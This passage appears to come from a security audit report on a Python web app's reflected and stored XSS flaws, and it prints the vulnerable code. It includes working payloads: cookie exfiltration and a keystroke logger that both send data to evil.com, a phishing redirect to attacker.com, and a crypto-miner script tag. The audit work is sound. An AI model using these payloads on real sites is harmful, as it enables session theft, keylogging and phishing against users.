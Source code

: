 #### Attack Vectors:
1. **Basic Script Injection:**
   - URL: `/search?q=<script>alert('XSS')</script>`
   - Impact: Immediate JavaScript execution

2. **Event Handler Injection:**
   - URL: `/search?q=<img src=x onerror=alert(document.cookie)>`
   - Impact: Cookie theft

3. **Advanced Payload:**
   - URL: `/search?q=<svg onload=fetch('//evil.com/steal?c='%2Bdocument.cookie)>`
   - Impact: Silent data exfiltration

---

### 2. Stored XSS - Post Content

**Vulnerability Type:** Stored/Persistent XSS  
**Severity:** **CRITICAL**  
**CVSS 3.1 Score:** 9.0 (Critical)  
**CWE ID:** CWE-79  
**OWASP Top 10:** A03:2021 - Injection  

#### Location Details:
- **Function:** `view_post()`
- **Line Numbers:** 177-183 (post title and content)
- **Vulnerable Code:**
```python
content = f"""
    <h1>{post[1]}</h1>
    <div class="post">
        <small>By {post[3]} on {post[4]}</small>
        <hr>
        <div>{post[2]}</div>
    </div>
```

#### Attack Scenarios:
1. **Persistent Payload in Post Title:**
   - Payload: `<script>window.location='http://attacker.com/phish'</script>`
   - Impact: All viewers redirected to phishing site

2. **Keylogger Injection:**
   ```javascript
   <script>
   document.addEventListener('keypress', function(e) {
       fetch('//evil.com/log?key=' + e.key);
   });
   </script>
   ```
   - Impact: Captures all keystrokes

3. **Cryptocurrency Miner:**
   - Payload: `<script src="https://coinhive.com/lib/coinhive.min.js"></script>`
   - Impact: Browser-based cryptomining

---